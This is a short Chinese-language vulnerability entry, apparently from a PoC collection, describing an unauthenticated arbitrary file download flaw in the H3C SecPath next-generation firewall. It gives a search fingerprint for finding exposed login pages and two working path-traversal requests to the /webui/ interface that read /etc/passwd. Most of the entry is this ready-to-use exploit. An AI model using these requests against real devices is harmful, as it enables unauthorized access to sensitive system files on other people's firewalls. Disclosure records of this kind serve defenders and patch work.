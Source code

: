 # H3C SecPath下一代防火墙 任意文件下载漏洞

# H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## 网络测绘

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](/images/202202110914717.png)

存在漏洞点的功能有两个

![](/images/202202110914728.png)

点击下载抓包更改请求

![](/images/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```

